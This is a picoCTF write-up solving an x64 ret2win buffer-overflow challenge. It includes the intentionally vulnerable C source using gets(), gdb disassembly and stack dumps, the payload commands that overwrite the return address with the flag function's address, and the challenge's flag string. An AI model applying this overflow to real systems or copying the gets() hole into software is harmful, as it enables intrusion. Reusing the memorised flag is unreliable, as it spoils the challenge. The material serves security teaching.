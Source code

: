 ```yaml
---
layout: writeup
category: picoCTF
chall_description: https://i.imgur.com/C12B482.png
points: 200
solves: 2473
tags: binary-exploitation x64 buffer-overflow
date: 1337-11-28
comments: false
---
```


Overflow x64 code  
Most problems before this are 32-bit x86. Now we'll consider 64-bit x86 which is a little different! Overflow the buffer and change the return address to the flag function in this [program](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln). Download [source](https://github.com/Nightxade/ctf-writeups/tree/master/assets/CTFs/picoCTF/x64vuln.c).  
`nc saturn.picoctf.net [port #]`  

---

We're given a binary ELF file and a C source file. Here's the C source:  

```c
#include <stdio.h>
#include <stdlib.h>
#include <string.h>
#include <unistd.h>
#include <sys/types.h>

#define BUFFSIZE 64
#define FLAGSIZE 64

void flag() {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  printf(buf);
}

void vuln(){
  char buf[BUFFSIZE];
  gets(buf);
}

int main(int argc, char **argv){

  setvbuf(stdout, NULL, _IONBF, 0);
  gid_t gid = getegid();
  setresgid(gid, gid, gid);
  puts("Welcome to 64-bit. Give me a string that gets you the flag: ");
  vuln();
  return 0;
}
```

First things first, create a `flag.txt` file and enter whatever text you’d like so we can run the program in our local machine.  
`chmod +x vuln` to enable execution  
`gdb vuln` to enter debugger  
disass vuln:  
```
Dump of assembler code for function vuln:

   0x00000000004012b2 <+0>:     endbr64 
   0x00000000004012b6 <+4>:     push   %rbp
   0x00000000004012b7 <+5>:     mov    %rsp,%rbp
   0x00000000004012ba <+8>:     sub    $0x40,%rsp
   0x00000000004012be <+12>:    lea    -0x40(%rbp),%rax
   0x00000000004012c2 <+16>:    mov    %rax,%rdi
   0x00000000004012c5 <+19>:    mov    $0x0,%eax
   0x00000000004012ca <+24>:    call   0x401100 <gets@plt>
   0x00000000004012cf <+29>:    nop
   0x00000000004012d0 <+30>:    leave  
   0x00000000004012d1 <+31>:    ret
End of assembler dump.
```

   `0x00000000004012b7 <+5>:     mov    %rsp,%rbp`
This instruction makes it so that `rsp` and `rbp` point to the same address  
   `0x00000000004012ba <+8>:     sub    $0x40,%rsp`  
This instruction creates 0x40, i.e. 64, bytes of space.  

Currently, the stack looks like this:  

|Stack                  |
|:----------------------|
|Return Address (rdi)   |
|:----------------------|
|Base Pointer (rbp)     |
|:----------------------|
|0x40 bytes of space    |
|:----------------------|
|Stack Pointer (rsp)    |
|:----------------------|

Given that the vuln function utilizes the gets function for input, we know we can perform a buffer overflow attack to overwrite the return address.  

Let’s dynamically confirm where the input is stored on the stack:  

`b *vuln+29` to set a breakpoint right after the call function finishes.  
`r` to run the function  
Enter whatever input you can recognize in hex form.  
`x/100x $rsp` to check the stack  
You should see something like the following in the first few rows:  

    0x7fffa44053b0: 0x61616161      0x61616161      0x00616161      0x00007fc6
    0x7fffa44053c0: 0x6777c780      0x00007fc6      0x675e3765      0x00007fc6
    0x7fffa44053d0: 0x00000000      0x00000000      0xa4405420      0x00007fff

Note that our input (I entered ‘aaaaaaaaaaa’) shows up in the beginning of the stack. Thus, our input is definitely located at `$rsp+0x0`
disass flag:  
```
Dump of assembler code for function flag:
   0x0000000000401236 <+0>:     endbr64 
   0x000000000040123a <+4>:     push   %rbp
   0x000000000040123b <+5>:     mov    %rsp,%rbp
   0x000000000040123e <+8>:     sub    $0x50,%rsp
   0x0000000000401242 <+12>:    lea    0xdbf(%rip),%rsi        # 0x402008
   0x0000000000401249 <+19>:    lea    0xdba(%rip),%rdi        # 0x40200a
   0x0000000000401250 <+26>:    call   0x401130 <fopen@plt>
   0x0000000000401255 <+31>:    mov    %rax,-0x8(%rbp)
   0x0000000000401259 <+35>:    cmpq   $0x0,-0x8(%rbp)
   0x000000000040125e <+40>:    jne    0x401289 <flag+83>
   0x0000000000401260 <+42>:    lea    0xdac(%rip),%rdx        # 0x402013
   0x0000000000401267 <+49>:    lea    0xdba(%rip),%rsi        # 0x402028
   0x000000000040126e <+56>:    lea    0xde8(%rip),%rdi        # 0x40205d
   0x0000000000401275 <+63>:    mov    $0x0,%eax
   0x000000000040127a <+68>:    call   0x4010e0 <printf@plt>
   0x000000000040127f <+73>:    mov    $0x0,%edi
   0x0000000000401284 <+78>:    call   0x401140 <exit@plt>
   0x0000000000401289 <+83>:    mov    -0x8(%rbp),%rdx
   0x000000000040128d <+87>:    lea    -0x50(%rbp),%rax
   0x0000000000401291 <+91>:    mov    $0x40,%esi
   0x0000000000401296 <+96>:    mov    %rax,%rdi
   0x0000000000401299 <+99>:    call   0x4010f0 <fgets@plt>
   0x000000000040129e <+104>:   lea    -0x50(%rbp),%rax
   0x00000000004012a2 <+108>:   mov    %rax,%rdi
   0x00000000004012a5 <+111>:   mov    $0x0,%eax
   0x00000000004012aa <+116>:   call   0x4010e0 <printf@plt>
   0x00000000004012af <+121>:   nop
   0x00000000004012b0 <+122>:   leave  
   0x00000000004012b1 <+123>:   ret    
End of assembler dump.
```

The important thing here is the address of the flag function, `0x0000000000401236`.  
We need to overwrite the return address, which is located at offset `$rsp+0x48`. (This is because there is 0x40 bytes of space between the stack pointer and base pointer and the base pointer itself is 0x8 bytes since this is x64).  
We can send a hex-encoded input to ./vuln to do this.  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x36\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

The first command writes 72 ‘a’ characters to the file input for the buffer, i.e. to get to offset 0x48.  
The second part writes the hex values of the flag function address, which we cannot easily write in ascii. Note that the bytes are written in reverse order because of little endianness.  

Run ./vuln < input, which should return the contents of your `flag.txt` file.  

---

If you instead received a segmentation fault without the flag, check the second hint of the problem, which states: Jump to the second instruction (the one after the first push) in the `flag` function, if you're getting mysterious segmentation faults.  

To fix this, we need to jump to the instruction right after the first push in the `flag` function:  
`0x000000000040123b <+5>:     mov    %rsp,%rbp`  

This has address `0x000000000040123b`, so we we only need to slightly modify our commands:  

<pre 
  class="command-line" 
  data-prompt="kali@kali $"
><code class="language-bash">python -c "print('a'*72)" > input
echo -ne '\x3b\x12\x40\x00\x00\x00\x00\x00' >> input</code>
</pre>

Now you should get your `flag.txt` file contents.  

---

Once you receive your `flag.txt` file contents, the challenge is done!  
Run `nc -q 2 saturn.picoctf.net [port #] < input`, which will return your flag.  
Note that `-q 2` makes the connection wait 2 seconds after the EOF (end of file) before closing input, which allows us to receive the flag.  

    picoCTF{b1663r_15_b3773r_d95e02b6}
